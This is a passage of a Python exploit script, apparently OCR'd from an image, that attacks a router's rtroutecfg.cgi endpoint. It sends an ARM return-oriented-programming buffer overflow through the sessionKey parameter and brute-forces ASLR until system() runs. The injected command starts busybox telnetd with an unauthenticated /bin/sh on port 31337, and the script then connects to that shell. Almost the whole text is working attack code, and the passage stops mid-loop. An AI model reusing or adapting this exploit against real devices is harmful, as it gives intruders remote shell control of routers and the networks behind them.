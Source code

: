 ```python
sp : bee158c0  ip : 00000000  fp : 41414141
r10: 41414141  r9 : 41414141  r8 : 00000000
r7 : 41414141  r6 : 41414141  r5 : 41414141  r4 : 41414141
r3 : 00000000  r2 : 00000000  r1 : 00000000  r0 : 00000001
"""

TARGET = "192.168.20.1"

MAX_BUF_SIZE = 4140

libc_system         = b"%6C%89%a2%b6"   # 0xb6a2896c

# Gadgets
big_pop             = b"%40%2b%65%b6"   # 0xb6652b40 (0x00079b40) : mov r0, r1; pop {r4, r5, r6, r7, pc};
add_r1_sp_blx_r5    = b"%6c%79%6d%b6"   # 0xb66d796c (0x000fe96c) : add r1, sp, #0x14; blx r5;
mov_r0_r1_blx_r3    = b"%cc%d0%64%b6"   # 0xb664d0cc (0x000740cc) : mov r0, r1; blx r3;
mov_r4_r3_pop_r4_pc = b"%7c%98%65%b6"   # 0xb665987c mov r3, r4; mov r0, r3; pop {r4, pc}; 

# pewpew
buf  = b"A" * 4096
buf += big_pop              # r3 => pop system() into PC
buf += mov_r0_r1_blx_r3     # r5 => mov r1 into r0, blx to r3 to continue chain (big_pop ^)
buf += b"B" * ((MAX_BUF_SIZE - len(buf)))                  
buf += mov_r4_r3_pop_r4_pc  # move r4 into r3 to continue rop chain
buf += b"CCCC"              
buf += add_r1_sp_blx_r5     # push sp to point at command and save in r1
buf += b"D" * 16            
buf += libc_system          # executed last after r0 populated
buf += b""
buf += b"sh%20-c%20%22/bin/busybox%20telnetd%20-l%20/bin/sh%20-p%2031337%22%23"     

print(f"[*] payload length: {len(buf)}")

buf = buf.decode("latin1")

# Referer header is required in the request
headers = {
    "Referer": f"http://{TARGET}/login.html" 
}

print("[*] bruteforcing aslr. this could take a while..")

pwned = False

# keep repeating until the base address for libc is 0xb65d9000, allowing the gadgets + system() line up correctly

while not pwned:
    try:
        r = requests.get(f"http://{TARGET}/.css/rtroutecfg.cgi?defaultGatewayList=ppp0.3&dfltGw6Ifc=&sessionKey={buf}", timeout=5, headers=headers)

    except requests.exceptions.ConnectionError:
        # successful exploitation hangs connection. Capture timeout so we dont hang forever
        print("\n[*] got hit on libc @ 0xb65d9000")
    
    try:
        tn = telnetlib.Telnet(TARGET, 31337)
        if (tn):
            pwned = True
            print("[*] popping shell")
            time.sleep(2)
```